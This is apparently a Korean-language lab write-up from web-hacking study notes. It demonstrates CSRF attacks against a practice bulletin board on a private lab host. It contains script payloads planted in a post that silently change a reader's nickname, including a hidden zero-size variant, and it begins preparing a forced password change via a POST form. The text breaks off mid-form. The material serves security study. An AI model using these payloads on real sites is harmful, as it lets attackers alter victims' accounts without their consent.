     ```
    <img name="i" width="100" height="100"></img>
    <script>i.src="https://www.iei.or.kr/resources/images/main/main_renewal/top_logo.jpg"</script>
    ```

    ![화면 캡처 2022-10-28 175308](../../assets/img/화면 캡처 2022-10-28 175308.png)

    ![화면 캡처 2022-10-28 175336](../../assets/img/화면 캡처 2022-10-28 175336.png)

  - 이미지 대신 우리가 원하는 닉네임으로 바꿀수 있도록 설정

    ```
    <img name="i" width="100" height="100"></img>
    <script>i.src="http://172.16.0.111/member/member_nick_change.php?nick=hack"</script>
    ```

    ![화면 캡처 2022-10-28 175454](../../assets/img/화면 캡처 2022-10-28 175454.png)

  - 글을 읽으니 닉네임이 변경된것을 확인

    ![화면 캡처 2022-10-28 175537](../../assets/img/화면 캡처 2022-10-28 175537.png)

  - 게시글에 안보이게 다시 작성

    ```
    <img name="i" width="0" height="0"></img>
    <script>i.src="http://172.16.0.111/member/member_nick_change.php?nick=u01"</script>
    ```

    ![화면 캡처 2022-10-28 180201](../../assets/img/화면 캡처 2022-10-28 180201.png)

- 게시판에서 한번 자동으로 비밀번호가 변경되도록 시도  -  POST

  - 회원정보 변경 분석

    ```
    회원 정보 페이지
    
    http://172.16.0.111/member/member_info.php
    ```

  - 페이지 소스 보기 > 1.html 로 저장

    ![화면 캡처 2022-10-28 180817](../../assets/img/화면 캡처 2022-10-28 180817.png)

  - 필요없는 태그 제거

    ```
    <!doctype html>
    <html>
    	<!-- head 부분 -->
    	<head></head>
    	<body>
    		<!-- 화면 하단 body 부분 -->
    		<div id="info_contents" class="contents">	
    		<form name="mform" method="post" action="member_info_change.php">
    			회 원 정 보
    				*이   름
    				김인기
    